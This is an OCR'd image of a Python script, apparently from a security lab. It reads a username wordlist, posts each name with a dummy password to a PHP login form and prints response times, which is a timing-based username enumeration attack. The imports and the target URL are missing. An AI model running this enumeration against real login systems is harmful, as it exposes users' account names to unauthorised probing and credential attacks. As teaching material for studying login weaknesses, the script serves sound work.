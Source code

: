 ```python

valid = "Welcome"

"""
wordlist is expected as simple list, we keep this function to have it ready if needed.
for this test we are using /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt
change this function if your wordlist has a different format
"""
def unpack(fline):
    userid = fline
    passwd = 'foobar'

    return userid, passwd

"""
our PHP example accepts requests via POST, and requires parameters as userid and passwd
"""
def do_req(url, userid, passwd, headers):
    data = {"userid": userid, "passwd": passwd, "submit": "submit"}
    res = requests.post(url, headers=headers, data=data)
    print("[+] user {:15} took {}".format(userid, res.elapsed.total_seconds()))

    return res.text

def main():
    # check if this script has been runned with an argument, and the argument exists and is a file
    if (len(sys.argv) > 1) and (os.path.isfile(sys.argv[1])):
        fname = sys.argv[1]
    else:
        print("[!] Please check wordlist.")
        print("[-] Usage: python3 {} /path/to/wordlist".format(sys.argv[0]))
        sys.exit()

    # open the file, this is our wordlist
    with open(fname) as fh:
        # read file line by line
        for fline in fh:
            # skip line if it starts with a comment
            if fline.startswith("#"):
                continue
            # use unpack() function to extract userid and password from wordlist, removing trailing newline
            userid, passwd = unpack(fline.rstrip())

            # call do_req() to do the HTTP request
            print("[-] Checking account {} {}".format(userid, passwd))
            res = do_req(url, userid, passwd, headers)

if __name__ == "__main__":
    main()
```
